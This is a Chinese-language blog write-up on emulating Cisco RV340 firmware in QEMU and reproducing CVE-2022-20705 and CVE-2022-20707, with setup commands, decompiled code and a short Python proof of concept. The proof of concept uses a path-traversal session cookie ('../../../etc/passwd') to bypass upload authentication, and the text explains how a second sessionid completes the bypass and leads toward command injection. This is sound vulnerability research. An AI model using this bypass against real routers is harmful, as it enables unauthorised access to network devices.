



# Cisco RV340利用链研究

作为初次接触IoT漏洞研究的探索，本文基于多篇优秀技术文章完成环境搭建和漏洞复现，主要参考：

[ Cyberangel 师傅的语雀文章 Cisco RV340利用链研究 ](https://www.yuque.com/cyberangel/rg9gdm/zz75e4)

[ 盛邦安全 的知乎文章 Cisco RV340命令执行漏洞（CVE-2022-20707）及关联历史漏洞分析 ](https://zhuanlan.zhihu.com/p/526291311)

[ 就叫16385吧 的奇安信攻防社区文章 pwn2own2021中的Cisco路由器 ](https://forum.butian.net/share/1869)

[ Swing 的博客 Pwning a Cisco RV340 漏洞分析（CVE-2022-20705 和 CVE-2022-20707 ](https://bestwing.me/Pwning%20a%20Cisco%20RV340%20%20%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%EF%BC%88CVE-2022-20705%20%E5%92%8C%20CVE-2022-20707.html)

[ lone_legend 的博客园文章 配置 QEMU Ubuntu 虚拟机通过网桥连接外网 ](https://www.cnblogs.com/sun-ye/p/15750212.html)

---

注意：笔者不再使用这篇博客的环境，不建议使用这篇博客进行环境安装的参考。

---

## 基础环境的安装和测试

### 环境准备

`MIPS`交叉编译工具链搭建及其32位指令集。

```bash
# qemu 安装
sudo apt install qemu qemu-user qemu-user-static qemu-system binfmt-support

# 虚拟网络工具包
sudo apt install uml-utilities bridge-utils

# 安装 mips 交叉编译环境
sudo apt install gcc-mips-linux-gnu
sudo apt install gcc-mipsel-linux-gnu
sudo apt install gcc-mips64-linux-gnuabi64
sudo apt install gcc-mips64el-linux-gnuabi64

# 多架构调试依赖
sudo apt install gdb-multiarch
```

习惯使用 `conda` 进行环境管理，创建一个专门用来进行 IoT 操作的 `conda` 环境（主要管理 `python包` 等），此步骤可以省略。

```bash
conda create -n iot python=3.11 # 创建一个
conda activate iot
pip install pwntools --proxy "127.0.0.1:7890" # 使用本地代理安装 pip 包
```

### 编写简单代码进行环境测试

```c
#include <stdio.h>
#include <unistd.h>

int main(){
    char buffer[32];
    printf("Welcome to MIPS\n");
    read(0,buffer,20);
    printf("%s",buffer);
    return 0;
}
```

```bash
# 编译 有‘el’是小端序，默认编译是32位。
mips-linux-gnu-gcc testMIPS.c -o testMIPS_BigEndian_32.o
mipsel-linux-gnu-gcc testMIPS.c -o testMIPS_LittleEndian_32.o
mips64-linux-gnuabi64-gcc testMIPS.c -o testMIPS_BigEndian_64.o
mips64el-linux-gnuabi64-gcc testMIPS.c -o testMIPS_LittleEndian_64.o

# 查看文件信息。
readelf -h ./testMIPS_*
```


运行和查看结果，正常运行可以证明 `MIPS` 交叉编译工具链和 `qemu` 模拟环境已经安装完成。


###  `binwalk` 源码编译安装

跟着 github 的官方的教程，此处不再赘述。如果出现问题自行解决即可。笔者使用的环境为 Ubuntu22.04 版本，使用源码进行安装也是因为看到的文章中有说明，不使用源码可能出现某些依赖之类的问题，但笔者暂时没有深入探究，略过。

https://github.com/ReFirmLabs/binwalk/wiki/Compile-From-Source

### 使用 `gdb` 对MIPS程序进行调试


```bash
# 取个简单点的名字。
cp testMIPS_BigEndian_32.o test

# -g 端口参数  给出一个本地端口供gdb使用，并在 gdb 介入前不“运行”程序。
qemu-mips-static -L /usr/mips-linux-gnu -g 1234 ./test

# 新建窗口
# 打开gdb, 设置环境并连接到刚刚的程序中，便可以进行远程调试。
gdb
gdb > file test # 读取文件信息
gdb > set architecture mips # 设置机器环境
gdb > target remote :1234 # 链接远程目标 127.0.0.1:1234

gdb > b *0x400808

# 进行后续调试
gdb > c
gdb > ......
```
至此就以及完成了最简单的环境配置和测试，其他配置等遇到具体需求时在进行处理。

## 模拟固件

### 配置网络环境，使得主机能够与路由器通信

---

创建虚拟网络

``` bash
# 创建网桥
sudo brctl addbr ms_br # 创建一个名为`ms_br`的网桥设备
sudo ip link set ms_br up  # （启动）刚刚创建的网桥`ms_br`，使其处于活动状态
sudo ip addr add 192.168.10.1/24 dev ms_br # 给网桥`ms_br`分配一个IP地址`192.168.10.1`

# 创建并连接TAP设备
sudo ip tuntap add dev ms_tap mode tap  # 创建一个TAP设备，命名为`ms_tap`
sudo brctl addif ms_br ms_tap # 将TAP设备`ms_tap`添加到网桥`ms_br`中
sudo ip link set ms_tap up # 启用TAP设备`ms_tap`
sudo ip addr add 192.168.10.10/24 dev ms_tap # 给`my_tap`分配一个IP地址`192.168.10.10`
```



至此，我们便完成了 `Linux` 中的网络设备的设置。运行 `ifconfig` 也可以查看当前配置的网络状态。


### 启动 `qemu` 运行程序

固件：
[RV34X-v1.0.03.22-2021-06-14-02-33-28-AM.img](imgs/RV34X-v1.0.03.22-2021-06-14-02-33-28-AM.img)

首先，使用 `binwalk` 对我们获取到的 img文件 进行解包，并搜索到文件的目录，使用 `tar` 打包备用：

```bash
binwalk -Me RV34X-v1.0.03.22-2021-06-14-02-33-28-AM.img
find ./extractions | grep '/bin/sh'

# 得到目标路径，从根目录打包复制
tar -cvf rootfs.tar.gz ./extractions/RV34X-v1.0.03.22-2021-06-14-02-33-28-AM.img.extracted/0/RV340_Firmware_Package.bin.extracted/0/decompressed.bin.extracted/0/fw.gz.extracted/0/decompressed.bin.extracted/0/openwrt-comcerto2000-hgw-rootfs-ubi_nand.img.extracted/0/ubifs-root/ubi_0.img/img-1161918421_vol-rootfs.ubifs.extracted/0/ubifs-root/
```


然后，对包内的 `shell` （这里是 `busybox` ）的信息进行查询


根据输出信息，我们前往 [https://people.debian.org/~aurel32/qemu/](https://people.debian.org/~aurel32/qemu/) 下载所需的镜像等资源，这里，我们使用的是 `armhf/` 下的包。
对于不同的 "移植"（ debian 官方的中文翻译是这么叫的），我们应当下载不同的磁盘镜像文件和内核文件（以及初始化文件） （参考链接[https://www.debian.org/ports/](https://www.debian.org/ports/)）：


| 移植                | 架构                   |            描述           
|--------------------|------------------------|--------------------------|
| **amd64**          | 64 位 PC（amd64）       | 主流桌面/服务器架构，兼容 Intel/AMD 64 位 CPU（如 Core i 系列、Ryzen）
| **armel**          | EABI ARM               | 旧版 ARM ABI，浮点运算通过软件模拟（兼容无 FPU 的芯片如 ARMv5）
| **armhf**          | 硬浮点 ABI ARM          | 直接使用 FPU 硬件加速浮点运算（需 ARMv7+ CPU，如 Raspberry Pi 2/3/4）
| **i386**           | 32 位 PC（i386）        | 经典 PC 架构（如 Pentium），现多用于兼容旧软件或低功耗设备
| **kfreebsd-amd64** | 64 位 PC（amd64）       | AMD64 硬件 + FreeBSD 内核（非 Linux）
| **kfreebsd-i386**  | 32 位 PC（i386）        | i386 硬件 + FreeBSD 内核
| **mips**           | MIPS（大端序模式）       | 常见于路由器、嵌入式设备
| **mipsel**         | MIPS（小端序模式）       | 常见于路由器、嵌入式设备
| **powerpc**        | Motorola/IBM PowerPC   | 曾用于 Mac（G3-G5）、游戏主机（PS3/Xbox 360）、服务器
| **sh4**            | SuperH                 | 专用于嵌入式系统（如旧款 SEGA Dreamcast 主机）
| **sparc**          | Sun SPARC              | SUN/Oracle 服务器架构（常见于金融/电信领域）

因此，根据我们所需要模拟的程序，最终的开发板启动脚本：

```bash
sudo qemu-system-arm \
  -M vexpress-a9 \
  -kernel vmlinuz-3.2.0-4-vexpress \
  -initrd initrd.img-3.2.0-4-vexpress \
  -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \
  -append "root=/dev/mmcblk0p2 console=tty0" \
  -net nic \
  -net tap,ifname=ms_tap,script=no,downscript=no \
  -nographic
```


启动提示硬盘镜像没有按2的幂次对齐，我们根据提示的内容将硬盘 `resize` 后再次启动，有 `ALSA` 的提示，说明音频问题，我们忽略即可。

```
qemu-img resize debian_wheezy_armhf_standard.qcow2 32G
```


系统的默认帐号密码通常为 `root`:`root` 成功启动后，我们需要先对 `qemu` 的网络进行配置，然后再将路由器的固件加载进去：

```bash
ip addr add 192.168.10.2/24 dev eth0 # 配置网络IP
#ho 0 > /proc/sys/kernel/randoize_va_space # 关闭地址随机化
service ssh start
scp f145h@192.168.10.1:/home/f145h/Works/iot/Chapter2/rootfs.tar.gz ./rootfs.tar.gz # 复制镜像文件
tar -zxvf rootfs.tar.gz # 解压文件系统
chmod -R 777 ubifs-root/ # 简单授权
mount -o bind /dev ./ubifs-root/dev # 挂载文件系统 -o 指定挂载选项
mount -t proc /proc ./ubifs-root/proc # 挂载文件系统 -t 指定文件系统类型
chroot ./ubifs-root/ sh # 将当前进程的根目录切换到 ./ubifs-root/ 下

/etc/init.d/boot boot
generate_default_cert
/etc/init.d/confd start
/etc/init.d/nginx start
```

在模拟固件运行时会产生一些报错，查看服务可以正常运行，暂时忽略过程中产生的报错，不进行研究，根据我的配置，现在我们可以通过访问 `192.168.10.2` 来访问路由器的后台。



## RV340 漏洞复现

以下是对 `Cisco RV340` 路由器漏洞的部分利用与分析过程。在对该路由器固件进行模拟抓包时，我发现在默认的 BurpSuite 设置中是无法捕获到对该路由器的流量包，解决方法是进入 `BurpSuite` 的 `Proxy settings` 选项，并取消勾选（或关闭）对 `HTTP/2 protocol` 的支持。接下来即可进行漏洞分析与复现。

### CVE-2022-20705

涉及到的漏洞文件路径：
- `/etc/nginx/conf.d/web.upload.conf`
- `/www/cgi-bin/upload.cgi`

```nginx
location /form-file-upload {
        include uwsgi_params;
        proxy_buffering off;
        uwsgi_modifier1 9;
        uwsgi_pass 127.0.0.1:9003;
        uwsgi_read_timeout 3600;
        uwsgi_send_timeout 3600;
}

location /upload {
        set $deny 1;

        if (-f /tmp/websession/token/$cookie_sessionid) { # 问题语句
                set $deny "0";
        }

        if ($deny = "1") {
                return 403;
        }

        upload_pass /form-file-upload;
        upload_store /tmp/upload;
        upload_store_access user:rw group:rw all:rw;
        upload_set_form_field $upload_field_name.name "$upload_file_name";
        upload_set_form_field $upload_field_name.content_type "$upload_content_type";
        upload_set_form_field $upload_field_name.path "$upload_tmp_path";
        upload_aggregate_form_field "$upload_field_name.md5" "$upload_file_md5";
        upload_aggregate_form_field "$upload_field_name.size" "$upload_file_size";
        upload_pass_form_field "^.*$";
        upload_cleanup 400 404 499 500-505;
        upload_resumable on;
}
```

由于 nginx 对 upload 模块的处理不当，导致 `$sessionid` 参数可控，攻击者可以通过修改 `sessionid` 为类似于 `../../../etc/passwd` 等一定存在的值，从而绕过对 `sessionid` 的鉴权，通过下面的脚本可以看到，错误的 `sessionid` 给出了 `403 Forbidden` 的返回值，而我们制造的 `sessionid` 可以返回 `400 Bad Request` 的返回页，说明我们已经绕过了此处对 `sessionid` 的检查。

```python
import requests

url='https://192.168.10.2/upload'

headers_1={'Cookie':'sessionid=wrongid'}
headers_2={'Cookie':'sessionid=../../../etc/passwd'}

r_1 = requests.post(url,headers=headers_1,verify=False)
r_2 = requests.post(url,headers=headers_2,verify=False)

print(r_1.text)
print("-"*0x30)
print(r_2.text)

r_1.close()
r_2.close()
```

在`upload.cgi`中（具体逻辑建议读者结合 IDA 反汇编代码自行分析），存在第二处检查：要求sessionid内必须满足前方的正则匹配、且长度大于16。

```C
  else if ( !strcmp(v5, "/upload")
         && session
         && strlen(session) - 16 <= 0x40
         && !match_regex("^[A-Za-z0-9+=/]*$", session) )
  {
    v25 = destination;
    v26 = option;
    v27 = pathparam;
    v28 = StrBufToStr(filepara_);
    upload_fun(session, v25, v26, v27, v28, cert_name, cert_type, password);
  }
```

该代码循环遍历传入的 `Cookie` 字符串，若遇到 "sessionid=" 子串，则将其后的值（即 `sessionid` 的值）赋给变量 `Cookie`（这个变量对应上文分析中的 `session`）。

```C
  if ( Cookie )
  {
    StrBufSetStr(Cookie_t2, Cookie);
    Cookie = 0;
    v16 = (char *)StrBufToStr(Cookie_t2);
    for ( i = strtok_r(v16, ";", &save_ptr); i; i = strtok_r(0, ";", &save_ptr) )
    {
      idx = strstr(i, "sessionid=");
      if ( idx )
        Cookie = idx + 10;
    }
  }
```

如果我们传入两个 `sessionid`，这段代码只会对最后的 `sessionid` 进行语法检查，而第一个 `sessionid` 可以绕过 web端 的鉴权，那么当我们传入两个 `sessionid` 参数，而第二个为满足正则判断的合法参数时，即可实现目标函数的执行。

如果是按照我之前的步骤进行的模拟，会看到此时响应显示为 `Error Input` ，但登录路由器管理后台后，可确认文件 `1.img` 已成功上传。这个问题是由于缺少 `/tmp/firmware` 文件夹导致，为了使得服务正常运行，我们应当创建这个文件夹并执行 `chown www-data:www-data firmware` 指令，此后就可以获得正确的响应包。


### CVE-2022-20707

涉及到的漏洞文件路径：
`/www/cgi-bin/upload.cgi`

关键漏洞代码：



由于这里的 json 可控、且拼接后会被执行，存在一个命令执行漏洞。我们通过函数 `sub_117E0` 控制 json 字符串，单引号内的代码被解析执行时就可以触发命令执行漏洞。


